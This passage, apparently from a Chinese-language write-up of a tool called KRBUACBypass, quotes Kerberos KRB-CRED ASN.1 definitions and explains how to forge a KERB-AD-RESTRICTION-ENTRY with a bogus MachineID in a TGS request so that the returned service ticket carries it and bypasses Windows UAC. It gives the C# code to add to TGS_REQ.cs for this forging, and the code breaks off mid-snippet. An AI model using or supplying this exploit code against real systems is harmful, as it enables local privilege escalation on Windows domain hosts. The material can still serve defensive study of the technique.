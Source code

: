 ```cpp
KRB-CRED        ::= [APPLICATION 22] SEQUENCE {
        pvno            [0] INTEGER (5),
        msg-type        [1] INTEGER (22),
        tickets         [2] SEQUENCE OF Ticket,
        enc-part        [3] EncryptedData -- EncKrbCredPart
}

EncKrbCredPart  ::= [APPLICATION 29] SEQUENCE {
        ticket-info     [0] SEQUENCE OF KrbCredInfo,
        nonce           [1] UInt32 OPTIONAL,
        timestamp       [2] KerberosTime OPTIONAL,
        usec            [3] Microseconds OPTIONAL,
        s-address       [4] HostAddress OPTIONAL,
        r-address       [5] HostAddress OPTIONAL
}

KrbCredInfo     ::= SEQUENCE {
        key             [0] EncryptionKey,
        prealm          [1] Realm OPTIONAL,
        pname           [2] PrincipalName OPTIONAL,
        flags           [3] TicketFlags OPTIONAL,
        authtime        [4] KerberosTime OPTIONAL,
        starttime       [5] KerberosTime OPTIONAL,
        endtime         [6] KerberosTime OPTIONAL,
        renew-till      [7] KerberosTime OPTIONAL,
        srealm          [8] Realm OPTIONAL,
        sname           [9] PrincipalName OPTIONAL,
        caddr           [10] HostAddresses OPTIONAL
}
```

接下来将调用 `Ask.TGS()` 方法，请求一个 TGS 票据（服务票据）。由于我们需要在服务票据中添加新的 `KERB-AD-RESTRICTION-ENTRY` 结构，但是服务票据是使用应用程序服务器的 Long-term Key 加密的，限于当前的权限，我们无法访问。因此我们只要在构造 KRB\_KDC\_REQ 请求之前，将伪造的 `KERB-AD-RESTRICTION-ENTRY` 结构添加到 KRB\_KDC\_REQ 消息的 `enc-authorization-data` 元素中。当 KRB\_KDC\_REQ 请求发送到 KDC 后，KRB\_KDC\_REQ 消息中的 `enc-authorization-data` 会被复制到服务票据的 `enc-part.authorization-data` 元素中，并在 KRB\_KDC\_REP 消息中返回。这样，我们申请的服务票据便包含了伪造的 `KERB-AD-RESTRICTION-ENTRY` 以及虚假的 MachineID 了。

只需要在 lib\\krb\_structures\\TGS\_REQ.cs 中添加以下代码，如下所示：

```c#
if (KRBUACBypass.Program.BogusMachineID)
{
    req.req_body.kdcOptions = req.req_body.kdcOptions | Interop.KdcOptions.CANONICALIZE;
    req.req_body.kdcOptions = req.req_body.kdcOptions & ~Interop.KdcOptions.RENEWABLEOK;

    // Add a KERB-AD-RESTRICTION-ENTRY but fill in a bogus machine ID.
    // Initializes a new AD-IF-RELEVANT container
    ADIfRelevant ifrelevant = new ADIfRelevant();
    // Initializes a new KERB-AD-RESTRICTION-ENTRY element
    ADRestrictionEntry restrictions = new ADRestrictionEntry();
    // Initializes a new KERB-LOCAL element, optional
    ADKerbLocal kerbLocal = new ADKerbLocal();
    // Add a KERB-AD-RESTRICTION-ENTRY element to the AD-IF-RELEVANT container
    ifrelevant.ADData.Add(restrictions);
    // Optional
    ifrelevant.ADData.Add(kerbLocal);
    // ASN.1 encode the contents of the AD-IF-RELEVANT container
    AsnElt authDataSeq = ifrelevant.Encode();
    // Encapsulate the ASN.1-encoded AD-IF-RELEVANT container into a SEQUENCE type
    authDataSeq = AsnElt.Make(AsnElt.SEQUENCE, authDataSeq);
    // Get the final authorization data byte array
    byte[] authorizationDataBytes = authDataSeq.Encode();
    // Encrypt authorization data to generate enc_authorization_data byte array
```